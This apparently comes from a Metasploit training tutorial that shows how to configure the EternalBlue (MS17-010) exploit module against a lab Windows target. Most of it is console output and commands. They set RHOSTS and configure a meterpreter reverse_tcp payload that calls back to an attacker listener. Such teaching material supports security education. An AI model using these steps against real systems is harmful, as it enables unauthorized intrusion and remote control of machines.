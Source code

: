 ```shell-session
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

As you can see in the screenshot above, some of these parameters require a value for the exploit to work. Some required parameter values will be pre-populated, make sure you check if these should remain the same for your target. 
	For example, a web exploit could have an RPORT (remote port: the port on the target system Metasploit will try to connect to and run the exploit) value preset to 80, but your target web application could be using port 8080.

In this example, we will set the RHOSTS parameter to the IP address of our target system using the `set` command.

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
